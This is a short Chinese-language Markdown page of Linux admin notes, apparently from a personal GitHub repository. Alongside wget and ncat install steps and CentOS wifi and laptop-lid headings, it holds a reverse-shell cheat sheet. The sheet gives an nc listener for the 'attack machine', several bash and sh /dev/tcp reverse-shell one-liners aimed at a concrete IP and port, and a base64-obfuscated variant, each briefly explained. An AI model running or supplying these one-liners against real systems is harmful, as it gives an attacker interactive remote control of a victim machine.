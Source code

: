 


##### 安装 wget

```shell
sudo yum install wget

```



##### 安装 ncat

```shell
yum install -y nc

#攻击机使用nc监听
nc -nvlp 4444

-n: 不反向解析dns，即不通过ip解析域名 no dns
-v: 详细信息输出 verbose
-l: 监听 listen
-p: 指定端口 port

#bash反弹
bash -i >& /dev/tcp/攻击机ip/攻击机port 0>&1
bash -i >& /dev/tcp/8.129.220.131/4444 0>&1

#base64版
#在线编码地址：http://www.jackson-t.ca/runtime-exec-payloads.html
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC84LjEyOS4yMjAuMTMxLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}

#其他版本
/bin/bash -i > /dev/tcp/8.129.220.131/4444 0<& 2>&1
exec /bin/sh 0</dev/tcp/8.129.220.131/4444 1>&0 2>&0
0<&196;exec 196<>/dev/tcp/8.129.220.131/4444; sh <&196 >&196 2>&196


bash -i：交互式shell
>& :输入输出重定向：0 stdin, 1 stdout, 2 stderr
/dev/tcp/ip/port: 特殊文件

注: /dev/tcp/ 是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接，读写这个文件就相当于在这个socket连接中传输数据。同理，Linux中还存在/dev/udp/。


```



##### CentOS 配置无线网络，开启wifi

- [CentOS 配置无线网络，开启wifi](https://www.cnblogs.com/asker009/p/10212045.html)



##### 设置笔记本合盖不休眠
